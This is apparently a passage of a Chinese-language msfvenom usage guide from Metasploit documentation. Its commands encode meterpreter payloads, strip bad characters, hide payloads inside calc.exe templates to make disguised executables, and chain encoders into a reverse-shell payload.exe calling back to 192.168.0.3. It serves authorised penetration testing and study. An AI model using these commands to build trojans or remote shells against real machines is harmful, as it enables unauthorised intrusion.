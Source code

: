 

查看可用编码器：

```
./msfvenom -l encoders
```



通过`-i`指定迭代次数（注意：编码并非真正的免杀解决方案）：

```
./msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -i 3
```



#### 过滤坏字符

```
./msfvenom -p windows/meterpreter/bind_tcp -b '\x00' -f raw
```



#### 自定义模板

默认使用`msf/data/templates`目录的模板，可通过`-x`指定自定义模板：

```
./msfvenom -p windows/meterpreter/bind_tcp -x calc.exe -f exe > new.exe
```



注意：为64位Windows payload指定模板时需使用`exe-only`格式：

```
./msfvenom -p windows/x64/meterpreter/bind_tcp -x /tmp/templates/64_calc.exe -f exe-only > /tmp/fake_64_calc.exe
```



`-k`参数可将payload作为新线程运行（仅适用于旧版x86 Windows如XP）：

```
./msfvenom -p windows/meterpreter/bind_tcp -x calc.exe -k -f exe > new.exe
```



#### 链式处理 Payload

通过管道实现多重编码：

```
./msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.3 LPORT=4444 -f raw -e x86/shikata_ga_nai -i 5 | \
./msfvenom -a x86 --platform windows -e x86/countdown -i 8  -f raw | \
./msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 9 -f exe -o payload.exe
```




